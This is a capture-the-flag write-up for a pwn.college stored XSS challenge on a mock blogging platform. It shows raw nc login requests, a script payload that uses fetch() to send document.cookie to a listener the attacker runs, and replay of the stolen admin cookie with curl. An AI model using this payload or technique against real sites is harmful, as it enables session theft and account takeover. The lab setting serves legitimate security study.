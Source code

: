 # XSS-7 Write-up — pwn.college

## 🔍 Challenge Overview

This challenge simulates a vulnerable blogging platform where:

- Users can log in, draft, and publish posts
- Admin visits public posts automatically using `/challenge/victim`
- The platform reflects user-submitted content without proper sanitization

Our goal is to inject JavaScript that **steals the admin's cookie** and sends it to our malicious server via a `fetch()` request.

---

## 🖥️ Server Behavior Summary

Key features:

- `/login`: POST endpoint to authenticate users
- `/draft`: Accepts and publishes post content (HTML/JS allowed)
- Admin visits published posts using an automated browser
- No XSS filtering or output sanitization

---

## ✅ Exploit Steps

### 1. Log in as `hacker`

```bash
printf "POST /login HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:29\r\n\r\nusername=hacker&password=1337" | nc challenge.localhost 80
```
Response:
```
Set-Cookie: auth=hacker|1337; Path=/
```

### 2. Create a malicious XSS payload
Craft a `<script>` tag that sends the admin's cookies to your server:
```
printf "POST /draft HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:108\r\nCookie: auth=hacker|1337\r\nConnection: close\r\n\r\ncontent=<script>fetch('http://localhost:1337/?c='%%2BencodeURIComponent(document.cookie));</script>&publish=on" | nc -q 1 challenge.localhost 80
```
Explanation:
```bash
<script>fetch('http://localhost:1337/?c=' + encodeURIComponent(document.cookie));</script>
```
This sends the admin’s cookie to our local HTTP server when they visit the post.

### 3. Start your malicious server
``` 
python3 -m http.server 1337

```
Leave this running.

### 4. Trigger admin visit
Run:
```
/challenge/victim
```
Expected output:
```bash
Visiting http://challenge.localhost:80/
Visited! Go check if the attack worked!
```
In your terminal running the HTTP server, you should see a GET request like:
```bash\
127.0.0.1 - - [21/Jul/2025 14:50:XX] "GET /?c=auth%3Dadmin%7Csupersecret HTTP/1.1" 200 -
```

---

## Final Result
- The admin visited your post.
- JavaScript executed in their browser.
- Their cookie was exfiltrated to your server.

---

##  Flag Retrieval

Sometimes, the flag is either inside the cookie or used as a session. Check the intercepted cookie or re-authenticate using it:

```bash
curl -b "auth=admin|supersecret" http://challenge.localhost/
```
### Flag
```
(pwn.college{...} — varies per instance)
```
---
